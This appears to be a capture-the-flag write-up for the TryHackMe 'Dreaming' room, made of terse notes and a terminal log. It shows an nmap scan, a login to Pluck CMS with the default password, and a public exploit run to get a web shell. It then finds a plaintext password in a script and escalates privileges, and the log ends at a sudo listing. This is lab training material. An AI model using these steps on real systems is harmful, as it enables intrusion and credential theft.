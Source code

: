 link: https://tryhackme.com/room/dreaming

<code>
└─$ nmap -sV -sC -Pn dreaming.thm        
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-12 04:22 CST
Nmap scan report for dreaming.thm (10.10.57.14)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 nmap, gobuster

http://dreaming.thm/app/pluck-4.7.13/?file=dreaming

whoops default admin password is password
http://dreaming.thm/app/pluck-4.7.13/admin.php?action=start

use known exploit to get reverse shell
https://www.exploit-db.com/exploits/49909
─$ python3 49909.py 10.10.57.14 80 password /app/pluck-4.7.13/



p0wny@shell:/home# ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jul 28 22:26 .
drwxr-xr-x 20 root     root     4096 Jul 28 22:35 ..
drwxr-xr-x  4 death    death    4096 Aug 25 20:04 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25 16:26 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7 23:48 morpheus


run linpeas found interesing files 
www-data@dreaming:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
www-data@dreaming:/opt$ cat test.py
cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
www-data@dreaming:/opt$ su lucien
su lucien
<b>Password: HeyLucien#@1999!</b>
id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)

get Lucien password login via ssh

lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py





<\code>
